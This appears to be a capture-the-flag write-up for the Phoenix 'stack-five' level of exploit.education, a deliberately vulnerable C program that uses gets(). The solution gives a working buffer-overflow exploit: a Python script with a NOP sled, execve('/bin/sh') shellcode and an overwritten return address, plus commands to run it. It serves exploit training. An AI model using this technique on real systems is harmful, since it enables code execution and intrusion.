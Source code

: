 # Stack-Five

## Code

```
/*
 * phoenix/stack-five, by https://exploit.education
 *
 * Can you execve("/bin/sh", ...) ?
 *
 * What is green and goes to summer camp? A brussel scout.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void start_level() {
  char buffer[128];
  gets(buffer);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

## Solution

First you need to find the address of the buffer and the distance from the address of the return address. In this case the distance is 140 and the buffer starts at 0xffffd660.
Using gdb the address of the buffer could be different from the real one, so we need to use NOP (\x90) and encrease the address (+- 40).

```
buf = "\x90" * 20
buf += "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
buf += "\x90" * (140 - len(buf))
buf += struct.pack("<I", 0xffffd730)
print buf"
```

Then save the output in a file and start the exploit:

```
python ~/stack-five.py > ~/stack-five
cat ~/stack-five - | ./stack-five
```
